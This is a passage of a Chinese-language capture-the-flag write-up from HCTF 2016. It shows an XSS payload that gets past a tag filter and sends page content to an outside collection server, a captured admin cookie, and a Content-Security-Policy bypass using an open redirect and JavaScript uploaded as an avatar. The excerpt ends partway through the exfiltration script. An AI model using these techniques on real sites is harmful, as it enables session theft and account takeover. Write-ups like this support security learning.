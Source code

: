 ```Python
```

爆破一下md5，msg输入

```Javascript
<scrscriptipt>window.open("http://xxx.xxx.xxx.xxx:8080/cookie.asp?msg="+document.body)</scrscriptipt>，
```

得到一个新的页面和管理员cookie: admin_lorexxar.php， admin=hctf2o16com30nag0gog0，带着cookie访问即可



### 7.Secret area

http://sguestbook.hctf.io/
这题csp限制了http://sguestbook.hctf.io/static/

但是，在302的时候，没有限制CSP，所以这里会有问题http://sguestbook.hctf.io/static/redirect.php?u=/user.php

而且还能自由上传头像，所以我们可以把js代码当成头像上传，

构造一个js代码如下

```javascript
function initRequest()
{
    var request = false;
    if(window.XMLHttpRequest) {         //FireFox
    request = new XMLHttpRequest();
    if (request.overrideMimeType) {
      request.overrideMimeType('text/xml');
    }
  }
  else if (window.ActiveXObject) {    //IE
    try {
      request = new ActiveXObject("Msxml2.XMLHTTP");
    } catch (e) {
      try {
        request = new ActiveXObject("Microsoft.XMLHTTP");
      } catch (e) {}
    }
  }
  if (!request) {
    window.alert("Create request error!");
    return false;
  }
  return request;
}

var http_request;
function send(sendUrl,sendData)
{
  http_request = initRequest();
  http_request.onreadystatechange = ajax_call_back;

  http_request.open("POST", sendUrl,true);
  http_request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  http_request.send(sendData);

}

function ajax_call_back()
{
  if (http_request.readyState == 4) {
    if (http_request.status == 200) {
      var str = http_request.responseText;
      alert(str);
```